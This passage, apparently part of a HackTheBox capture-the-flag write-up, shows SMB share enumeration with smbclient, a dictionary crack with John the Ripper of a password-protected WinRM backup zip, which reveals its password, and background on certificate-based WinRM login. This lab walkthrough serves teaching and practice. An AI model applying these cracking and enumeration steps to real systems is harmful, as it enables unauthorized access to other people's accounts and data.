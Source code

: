 ```shell
getting file \HelpDesk\LAPS_Datasheet.docx of size 104422 as LAPS_Datasheet.docx (37.9 KiloBytes/sec) (average 86.3 KiloBytes/sec)
Get file LAPS_OperationsGuide.docx? y
getting file \HelpDesk\LAPS_OperationsGuide.docx of size 641378 as LAPS_OperationsGuide.docx (194.0 KiloBytes/sec) (average 106.7 KiloBytes/sec)
Get file LAPS_TechnicalSpecification.docx? y
getting file \HelpDesk\LAPS_TechnicalSpecification.docx of size 72683 as LAPS_TechnicalSpecification.docx (29.4 KiloBytes/sec) (average 97.1 KiloBytes/sec)
smb: \HelpDesk\>
```

We went on to explore the contents of the `Shares` share using `smbclient`. 

Within this share, we discovered two directories: `Dev` and `HelpDesk`. In the `Dev` directory, we identified a file named `winrm_backup.zip`. Additionally, the `HelpDesk` directory contained various `docx` files and an `LAPS` MSI installer, indicating the possible usage of **LAPS** (`Local Administrator Password Solution`) in the system.

We transferred the contents of both directories to our local machine.

# WINRM PASSWORDLESS AUTHENTICATION

```shell
┌──(kali㉿kali)-[~/Documents/ctf/htb]
└─$ unzip winrm_backup.zip 
Archive:  winrm_backup.zip
[winrm_backup.zip] legacyy_dev_auth.pfx password: 
password incorrect--reenter: 
password incorrect--reenter: 
   skipping: legacyy_dev_auth.pfx    incorrect password
```

We started by trying to open a protected file `winrm_backup.zip`, but it needed a password that we didn't know.

```shell
┌──(kali㉿kali)-[~/Documents/ctf/htb]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt winrm_backup.zip.hash
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
supremelegacy    (winrm_backup.zip/legacyy_dev_auth.pfx)     
1g 0:00:00:00 DONE (2024-03-31 15:42) 1.282g/s 4447Kp/s 4447Kc/s 4447KC/s surkerior..suppamas
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

To get into this file, we used `John` along with `rockyou.txt`. Eventually, we found the password. 

Inside the file, we found something called `legacyy_dev_auth.pfx`, which looked like a certificate. We guessed it might be used for logging into `WinRM` without needing a password.

By default, `WinRM` uses **Basic Authentication** to authenticate users which is not very secure. For a better secure option, `WinRM` also supports **Certificate-based Authentication** that leverages digital certificates to verify users’ identities, ensuring that only authorized entities can access and manage remote systems. Learn more about WinRM passwordless authentication [here](https://medium.com/r3d-buck3t/certificate-based-authentication-over-winrm-13197265c790).
